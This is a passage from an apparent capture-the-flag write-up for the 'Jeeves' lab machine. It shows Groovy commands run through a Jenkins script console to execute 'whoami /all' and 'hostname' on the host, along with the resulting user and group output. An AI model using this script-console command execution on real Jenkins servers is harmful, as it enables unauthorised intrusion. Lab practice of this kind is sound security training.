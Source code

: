 ![Script console](assets/jeeves-script-console.png)

Then insert a few Groovy commands to test the access :

```bash
println "whoami /all".execute().text
println "hostname".execute().text
```

Output :

```text
USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
```